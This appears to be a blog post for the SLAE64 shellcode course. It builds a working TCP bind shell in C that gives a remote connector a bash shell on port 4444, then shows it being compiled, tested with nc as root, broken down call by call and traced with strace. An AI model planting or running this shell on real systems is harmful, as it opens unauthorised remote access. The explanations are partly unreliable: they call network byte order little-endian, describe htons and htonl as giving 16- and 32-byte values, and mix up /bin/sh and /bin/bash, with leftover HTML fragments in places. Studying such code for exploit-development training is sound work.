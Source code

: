 ```yaml
---
title: SLAE64 Assignment 1 - TCP Bind-Shell Shellcode
date: 2020-4-06
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# Bindshell Analysis
## Bindshell.c
+ To better understand x64 shellcode, I first created a working bindshell in C.

### shellcode.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  struct sockaddr_in ipSocketAddr = { 
    .sin_family = AF_INET, 
    .sin_port = htons(4444), 
    .sin_addr.s_addr = htonl(INADDR_ANY) 
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/bash", NULL, NULL);
}
```
### Compile Shellcode
```bash
root# uname -orm
5.3.0-amd64 x86_64 GNU/Linux
root# gcc bindshell.c -o bindshell
```

### Test Shellcode
#### Terminal 1
```bash 
root# ./bindshell

```
#### Terminal 2
```bash
root# nc 127.0.0.1 4444
whoami
root

```

### Function Analysis
1. Create a new Socket.
```c 
int socket(int domain, int type, int protocol); 
```
dl>
  <dt>int domain = AF\_INET</dt>
  <dd>IPv4 Internet protocols.</dd>

  <dt>int type = SOCK\_STREAM</dt>
  <dd>Provides sequenced, reliable, two-way, connection-based byte streams (TCP).</dd>
  <dt>int protocol = IPPROTO\_IP</dt>
  <dd>The protocol to be used with the socket.</dd>
  <dd>When there is only one protocol option within the address family (like in this case), the value `0` is used.</dd>
</dl>  
+ For complete details see: `man socket`  

2. Create an IP Socket Address structure.
```c
struct sockaddr_in {
  sa_family_t    sin_family; /* address family: AF_INET */
  in_port_t      sin_port;   /* port in network byte order */
  struct in_addr sin_addr;   /* internet address */
};
struct in_addr {
  uint32_t       s_addr;     /* address in network byte order */
}; 
```
+ `sa_family_t sin_family  = AF_INET`   
  - From Socket, we know that we will need to use the Address Family `AF_INET`  
+ `in_port_t sin_port      = htons(4444)`  
  - TCP Port 4444  
  - The `htons()` function converts our decimal integer to 16-byte little-endian hex (aka "network byte order")  
+ `struct in_addr sin_addr = htonl(INADDR_ANY)`   
  - All interfaces.  
  - The `htonl()` function converts our decimal integer to 32-byte little-endian hex.    
+ For complete details see: `man ip.7`  
```
3. Bind the IP Socket Address to Socket. 
```c
int bind(int sockfd, const struct sockaddr \*addr, socklen\_t addrlen);`
```
  + `sockfd = ipv4Socket`  
    - The socket file descriptor returned from `socket()` and saved as the variable `ipv4Socket`.  
  + `const struct sockaddr *addr = &ipSocketAddr`  
    - A pointer to the IP Socket Address structure `ipSocketAddr`.  
  + `socklen_t addrlen = sizeof(ipSocketAddr)`  
    - The byte length of our `ipSocketAddr` structure.  
    - `sizeof()` returns the length in bytes of the variable.  
  + For complete details see: `man bind`  
4. Listen for connections to the TCP Socket at the IP Socket Address.  
```c
int listen(int sockfd, int backlog);
```  
  + `int sockfd  = ipv4Socket`  
  + `int backlog = 0`   
    - This is for handling multiple connections.   
    - We only need to handle one connection at a time, therefor we will set this value to `0`.   
  + For complete details see: `man listen`  
5. Accept connections to the TCP-IP Socket and create a Client Socket.  
```c
int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
```  
  + `int sockfd = ipv4Socket`  
  + `struct sockaddr *addr = NULL`  
    - This structure is filled in with the address of the peer socket.  
  + `socklen_t *addrlen = NULL`  
    - When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.  
  + `int flags  = NULL`  
  + The function will return the new Socket File-Descriptor. Save as `clientSocket`  
  + For complete details see: `man accept`  
6. Transfer Standard-Input, Standard-Output, and Standard-Error to the client socket.  
```c
int dup2(int oldfd, int newfd);
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```   
  + For complete details see: `man dup2`  
7. Spawn a `/bin/sh` shell for the client, in the connected session.  
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
execve("/bin/sh", NULL, NULL);
```  
  + `const char *pathname = "/bin/sh"`  
  + `char *const argv[] = NULL`  
  + `char *const envp[] = NULL`  
  + For complete details see: `man execve`  

### Trace System-Calls  
+ Use `strace` to see system calls as the `shellcode` executes.  
```bash 
root# strace ./bindshell
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
```  
+ We see that the `Socket File-Descriptor` for our socket   
```bash
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3, NULL, NULL

```
+ We can see it hangs at `accept(`. To keep it moving we connect to our bindshell with `nc 127.0.0.1 4444`.  
+ I removed all of the system-calls that were irrelevant from the system trace.  

```bash
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/bash", NULL, NULL)         = 0

```
